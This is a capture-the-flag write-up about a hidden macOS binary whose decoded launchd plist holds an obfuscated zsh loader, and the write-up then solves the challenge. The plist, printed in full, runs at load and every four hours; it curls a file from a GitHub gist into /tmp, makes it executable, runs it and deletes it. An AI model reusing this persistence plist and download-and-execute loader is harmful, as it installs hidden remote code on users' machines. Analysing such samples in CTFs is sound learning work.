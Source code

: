 # Welcome to the park
## The creator of Jurassic Park is in hiding... amongst Mach-O files, apparently. Can you find him?

A file is included

---

Let's start with the file!

It looks like a MacOS program (? I really don't know)

If I go straight to `welcomeToThePark/welcome/.hidden` I find a binary file. Sus' !

# Reverse engineering

After decompiling the file I find this base64 encoded String which seems interesting. 

![Alt text](image.png)


Decoding it gives me this and confirm I'm on the right way.

```bash
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd"><plist version="1.0"><dict><key>Label</key><string>com.huntress.ctf</string><key>ProgramArguments</key><array><string>/bin/zsh</string><string>-c</string><string>

A0b='tmp="$(m';
A0bERheZ='ktemp /tmp/XX';
A0bERheZX='XXXXXX)"';
A0bER='; curl --';
A0bE='retry 5 -f ';
A0bERh='"https://';
A0bERheZXDRi='gist.githu';
xbER='b.com/s';
juuQ='tuartjas';
juuQQ7l7X5='h/a7d18';
juuQQ7l7X5yX='7c44f4327';
juuQQ7l7X5y='739b752d037be45f01';
juuQQ7='" -o "${tmp}"; i';juuQQ7l7='f [[ -s "${tmp}';juuQQ7l7X='" ]];';juQQ7l7X5y=' then chm';juQQ7l='od 777 "${tmp}"; ';zRO3OUtcXt='"${tmp}"';zRO3OUt='; fi; rm';zRO3OUtcXteB=' "${tmp}"';echo -e ${A0b}${A0bERheZ}${A0bERheZX}${A0bER}${A0bE}${A0bERh}${A0bERheZXDRi}${xbER}${juuQ}${juuQQ7l7X5}${juuQQ7l7X5yX}${juuQQ7l7X5y}${juuQQ7}${juuQQ7l7}${juuQQ7l7X}${juQQ7l7X5y}${juQQ7l}${zRO3OUtcXt}${zRO3OUt}${zRO3OUtcXteB} | /bin/zsh</string></array><key>RunAtLoad</key><true /><key>StartInterval</key><integer>14400</integer></dict></plist>
```

After looking a bit I see that there's a github link. I admitted the script downloads a script from this link and place it in /tmp/ which is a typical sussy behaviour. 

After concatening all the string the link is `https://gist.github.com/stuartjash/a7d187c44f4327739b752d037be45f01`

All the comments are obviously (I got pranked) fake flags. The interesting thing is the jpg file.

I fed [Aperi'Solve](https://www.aperisolve.com/) with the file and found the flag in the string part!


![Alt text](image-1.png)